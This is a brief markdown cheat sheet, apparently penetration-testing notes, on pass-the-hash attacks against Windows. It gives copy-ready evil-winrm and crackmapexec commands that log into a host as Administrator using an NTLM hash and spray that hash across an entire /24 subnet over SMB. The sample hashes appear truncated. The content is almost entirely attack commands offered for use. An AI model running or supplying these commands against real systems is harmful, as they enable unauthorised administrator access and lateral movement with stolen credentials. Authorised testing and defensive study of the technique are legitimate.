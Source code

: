 # Pass-The-Hash

## PTH Tools

##  Evil-WinRM

Evil-WinRM Pass The Hash:

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d3372a07ceea6'
```

## Crackmapexec

Pass The Hash against the target:

```bash
cme smb 172.16.157.25 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```

Pass The Hash against subnet:

```bash
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```

